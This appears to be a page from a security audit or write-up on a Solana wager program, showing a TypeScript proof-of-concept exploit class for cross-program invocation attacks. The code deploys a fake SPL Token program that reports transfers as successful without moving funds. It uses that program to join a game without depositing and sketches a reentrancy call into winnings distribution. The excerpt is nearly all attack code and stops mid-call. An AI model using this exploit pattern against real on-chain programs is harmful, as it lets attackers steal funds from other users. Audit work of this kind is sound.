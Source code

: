 ### Real-World CPI Attack Implementation
```typescript
class CPISecurityExploiter {
    async deployMaliciousTokenProgram(): Promise<PublicKey> {
        // 1. Deploy program that mimics SPL Token interface
        const maliciousTokenCode = `
            // Fake token transfer function
            pub fn transfer(ctx: Context<Transfer>, amount: u64) -> Result<()> {
                // Report success but don't actually transfer tokens
                msg!("Fake transfer successful: {} tokens", amount);

                // Optional: Call back into wager program for reentrancy
                // invoke_reentrancy_attack(ctx, amount)?;

                Ok(()) // Lie about success
            }

            pub fn invoke_reentrancy_attack(ctx: Context<Transfer>, amount: u64) -> Result<()> {
                // Call back into wager program during transfer
                let reentry_instruction = create_distribute_winnings_instruction();

                solana_program::program::invoke(
                    &reentry_instruction,
                    &ctx.accounts
                )?;

                Ok(())
            }
        `;

        const maliciousProgramId = await this.deployProgram(maliciousTokenCode);
        return maliciousProgramId;
    }

    async executeFakeTokenProgramAttack(sessionId: string): Promise<void> {
        // 2. Use malicious token program in join_user
        const maliciousTokenProgram = await this.deployMaliciousTokenProgram();

        await this.wagerProgram.methods
            .joinUser(sessionId, 0)
            .accounts({
                gameSession: this.getSessionPDA(sessionId),
                user: this.attackerKeypair.publicKey,
                userTokenAccount: this.attackerTokenAccount,
                vault: this.getVaultPDA(sessionId),
                tokenProgram: maliciousTokenProgram, // ❌ Malicious program
                systemProgram: SystemProgram.programId,
            })
            .signers([this.attackerKeypair])
            .rpc();

        // 3. Attacker joined game without actually depositing tokens
        console.log("Joined game with fake token transfer");
    }

    async executeReentrancyAttack(sessionId: string): Promise<void> {
        // 4. Deploy reentrant token program
        const reentrantProgram = await this.deployReentrantTokenProgram();

        // 5. Use in winnings distribution
        await this.wagerProgram.methods
            .distributeWinnings(sessionId, 0)
            .accounts({
```